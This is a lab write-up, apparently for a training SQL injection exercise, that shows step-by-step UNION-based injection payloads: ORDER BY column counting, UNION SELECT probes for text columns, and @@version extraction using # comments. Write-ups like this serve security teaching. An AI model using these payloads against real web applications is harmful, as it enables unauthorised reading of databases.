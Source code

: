 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234119364-69968631-e4f5-4a1c-89f3-3af9fb42532d.png)

![image](https://user-images.githubusercontent.com/67383098/234121250-b5ef9cbb-d132-4888-82aa-bd4c1d6ad88f.png)


## Solution :

> NOTE - Since it is either microsoft or MYQL db use **#** as comment 

#### Determine no of columns -

**ORDER BY 3** gives error which means there are 2 columns.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 #
```

![image](https://user-images.githubusercontent.com/67383098/234120375-cfe16e43-14f2-4786-8964-453c97ab8952.png)

#### Determine column which has text data -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'shebu','cys' #
```

Both the columns have text data since both returns the same i/p value.

![image](https://user-images.githubusercontent.com/67383098/234121081-4e5f067b-4bcc-485a-9ef7-6f4a6438c4f8.png)

#### Retreive db version 

The syntax to find version info of both MYSQL & Microsoft db are the same - `@@version`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT @@version,NULL #
```
![image](https://user-images.githubusercontent.com/67383098/234122059-225e45dd-1ae2-482d-95f6-1cc990dc2da6.png)

![image](https://user-images.githubusercontent.com/67383098/234122101-b1a2b88b-2e38-4d3b-8137-406bef3484b1.png)


